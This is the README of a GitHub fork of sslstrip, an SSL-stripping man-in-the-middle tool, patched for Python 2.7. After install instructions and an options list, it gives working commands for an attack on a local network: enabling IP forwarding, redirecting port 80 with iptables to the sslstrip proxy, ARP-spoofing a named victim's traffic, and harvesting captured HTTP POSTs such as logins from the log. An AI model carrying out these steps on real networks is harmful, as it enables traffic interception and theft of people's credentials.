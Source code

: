 # sslstrip patched to run with python 2.7

sslstrip is a MITM tool that implements Moxie Marlinspike's SSL stripping attacks.

This is a fork to make it work again with python 2.7. It requires Python 2.7, along with the `twisted`, `pyopenssl`, and `service_identity` python modules.

## Install

>This installation instructions assume that you have Python 2.7 installed and that it is the python version used by default (if it is not just change `python` to `python2` hereafter).

If you don't have `pip` for python 2 already installed, you can install it (besides distro-specific ways) with:

```console
curl https://bootstrap.pypa.io/get-pip.py -o get-pip.py
sudo python get-pip.py
```

Now you can install the python 2 module dependencies with:

```console
pip install twisted pyopenssl service_identity
```

And now you can clone this repo and install sslstrip

```console
git clone https://github.com/juanelas/sslstrip.git
cd sslstrip
sudo python setup.py install
```

> If you'd rather not install `sslstrip`, you can always run it from source by just typing `python sslstrip.py` and then the rest of options (see Usage below)

## Usage

sslstrip can be run from the source base without installation.
Just run `sslstrip -h` as a non-root user to get the  command-line options.

```text
sslstrip 0.9.1 by Moxie Marlinspike (patched by Juan Hernández Serrano)
Usage: sslstrip <options>

Options:
-w <filename>, --write=<filename> Specify file to log to (optional).
-p , --post                       Log only SSL POSTs. (default)
-s , --ssl                        Log all SSL traffic to and from server.
-a , --all                        Log all SSL and HTTP traffic to and from server.
-l <port>, --listen=<port>        Port to listen on (default 10000).
-f , --favicon                    Substitute a lock favicon on secure requests.
-k , --killsessions               Kill sessions in progress.
-h                                Print this help message.
```

The four steps to getting this working (assuming you're running Linux) are:

1) Flip your machine into forwarding mode (as root).

   `echo "1" > /proc/sys/net/ipv4/ip_forward`

   > If you want to make this change persist after reboot, in Debian-like distros just uncomment `net.ipv4.ip_forward=1` in `/etc/sysctl.conf` and reload it with `sudo sysctl -p`

2) Run the sslstrip transparent proxy listening at port `<yourListenPort>`

   `sslstrip -l <yourListenPort>`

3) Setup `iptables` to intercept HTTP requests (port 80/tcp) and send them to your sslstrip transparent proxy:

   `sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j REDIRECT --to-port <yourListenPort>`

5) Run `arpspoof` to redirect all traffic from your victim to the Internet to your machine:

   `arpspoof -i <yourNetworkdDevice> -t <victimIpAddress> <routerIpAddress>`

5) Start a network sniffer (e.g. wireshark, tcpdump) or directly look for HTTP posts in the sslstrip log file (`sslstrip.log` by default)
